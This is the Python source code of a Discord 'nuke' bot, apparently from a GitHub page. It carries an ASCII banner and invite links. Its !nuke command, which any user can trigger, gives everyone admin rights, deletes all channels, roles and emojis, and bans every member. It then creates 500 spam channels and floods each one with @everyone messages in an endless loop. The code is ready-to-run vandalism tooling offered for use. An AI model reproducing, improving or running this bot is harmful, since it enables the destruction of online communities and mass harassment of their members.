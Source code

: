 import discord
from discord.ext import commands
import random
from discord import Permissions
from colorama import Fore, Style
import asyncio

token = "YOUR_TOKEN"


SPAM_CHANNEL =  ["TEXT_OF_SPAMMED_CHANNELS"]
SPAM_MESSAGE = ["@everyone SPAMMED_TEXT"]

client = commands.Bot(command_prefix="!")


@client.event
async def on_ready():
   print(''' 
   
███╗░░██╗██╗░░░██╗██╗░░██╗███████╗  ██████╗░░█████╗░████████╗
████╗░██║██║░░░██║██║░██╔╝██╔════╝  ██╔══██╗██╔══██╗╚══██╔══╝ 
██╔██╗██║██║░░░██║█████═╝░█████╗░░  ██████╦╝██║░░██║░░░██║░░░ 
██║╚████║██║░░░██║██╔═██╗░██╔══╝░░  ██╔══██╗██║░░██║░░░██║░░░ 
██║░╚███║╚██████╔╝██║░╚██╗███████╗  ██████╦╝╚█████╔╝░░░██║░░░  
╚═╝░░╚══╝░╚═════╝░╚═╝░░╚═╝╚══════╝  ╚═════╝░░╚════╝░░░░╚═╝░░░ 

Support Server: https://discord.gg/break or https://discord.gg/eYbnGqMaQ4
 ''')
   await client.change_presence(activity=discord.Game(name="BOTS_DESCRIPTION"))

@client.command()
@commands.is_owner()
async def stop(ctx):
    await ctx.bot.logout()
    print (Fore.GREEN + f"{client.user.name} has logged out successfully." + Fore.RESET)

@client.command()
async def nuke(ctx):
    await ctx.message.delete()
    guild = ctx.guild
    try:
      role = discord.utils.get(guild.roles, name = "@everyone")
      await role.edit(permissions = Permissions.all())
      print(Fore.MAGENTA + "I have given everyone admin." + Fore.RESET)
    except:
      print(Fore.GREEN + "I was unable to give everyone admin" + Fore.RESET)
    for channel in guild.channels:
      try:
        await channel.delete()
        print(Fore.MAGENTA + f"{channel.name} was deleted." + Fore.RESET)
      except:
        print(Fore.GREEN + f"{channel.name} was NOT deleted." + Fore.RESET)
    for member in guild.members:
     try:
       await member.ban()
       print(Fore.MAGENTA + f"{member.name}#{member.discriminator} Was banned" + Fore.RESET)
     except:
       print(Fore.GREEN + f"{member.name}#{member.discriminator} Was unable to be banned." + Fore.RESET)
    for role in guild.roles:
     try:
       await role.delete()
       print(Fore.MAGENTA + f"{role.name} Has been deleted" + Fore.RESET)
     except:
       print(Fore.GREEN + f"{role.name} Has not been deleted" + Fore.RESET)
    for emoji in list(ctx.guild.emojis):
     try:
       await emoji.delete()
       print(Fore.MAGENTA + f"{emoji.name} Was deleted" + Fore.RESET)
     except:
       print(Fore.GREEN + f"{emoji.name} Wasn't Deleted" + Fore.RESET)
    banned_users = await guild.bans()
    for ban_entry in banned_users:
      user = ban_entry.user
      try:
        await user.unban("YOUR_USERNAME_AND_TAG")
        print(Fore.MAGENTA + f"{user.name}#{user.discriminator} Was successfully unbanned." + Fore.RESET)
      except:
        print(Fore.GREEN + f"{user.name}#{user.discriminator} Was not unbanned." + Fore.RESET)
    await guild.create_text_channel("TEXT_OF_SPAMMED_CHANNELS")
    for channel in guild.text_channels:
        link = await channel.create_invite(max_age = 0, max_uses = 0)
        print(f"New Invite: {link}")
    amount = 500
    for i in range(amount):
       await guild.create_text_channel(random.choice(SPAM_CHANNEL))
    print(f"nuked {guild.name} Successfully.")
    return

@client.event
async def on_guild_channel_create(channel):
  while True:
    await channel.send(random.choice(SPAM_MESSAGE))

client.run(token, bot=True)
